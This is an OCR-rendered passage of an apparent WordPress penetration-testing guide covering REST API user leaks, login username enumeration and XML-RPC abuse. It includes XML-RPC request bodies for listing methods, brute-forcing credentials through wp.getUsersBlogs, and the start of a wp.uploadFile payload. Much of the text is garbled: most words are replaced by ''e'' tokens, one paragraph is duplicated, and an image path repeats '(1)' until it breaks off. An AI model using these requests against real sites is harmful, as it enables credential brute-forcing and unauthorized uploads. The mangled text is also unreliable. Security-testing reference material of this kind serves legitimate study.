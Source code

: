 **'e'** **/wp-json/wp/v2/pages** **IP** **leak** **Suv**.

#### **Login** **username** **enumeration**

**'e'** **login** **`/wp-login.php`** **'e'** **message** **'e'** **'e'** **username** **'e'** **exist** **'e'**.

### **XML-RPC**

**xml-rpc.php** **'e'** **active** **'e'** **credentials** **brute-force** **'e'** **DoS** **attacks** **'e'** **resources** **'e'**. (**'e'** **automate** **'e'** **process**[**'e'** **this**](https://github.com/relarizky/wpxploit) **'e'** **example**).

**'e'** **active** **'e'** **try** **'e'** **access** **_**/xmlrpc.php**_** **'e'** **request** **'e'** **send**:

**Check**
```markup
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```
![](https://h3llwings.files.wordpress.com/2019/01/list-of-functions.png?w=656)

**Credentials Bruteforce**

**`wp.getUserBlogs`**, **`wp.getCategories`** or **`metaWeblog.getUsersBlogs`** are some of the methods that can be used to brute-force credentials. If you can find any of them you can send something like:

**Credentials Bruteforce**

**`wp.getUserBlogs`**, **`wp.getCategories`** or **`metaWeblog.getUsersBlogs`** are some of the methods that can be used to brute-force credentials. If you can find any of them you can send something like:
```markup
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```
The message _"Incorrect username or password"_ inside a 200 code response should appear if the credentials aren't valid.

![](<../../.gitbook/assets/image (107) (2) (2) (2) (2) (2) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1)
```markup
<?xml version='1.0' encoding='utf-8'?>
<methodCall>
<methodName>wp.uploadFile</methodName>
<params>
<param><value><string>1</string></value></param>
<param><value><string>username</string></value></param>
<param><value><string>password</string></value></param>
<param>
<value>
<struct>
<member>
<name>name</name>
<value><string>filename.jpg</string></value>
</member>
<member>
<name>type</name>
<value><string>mime/type</string></value>
```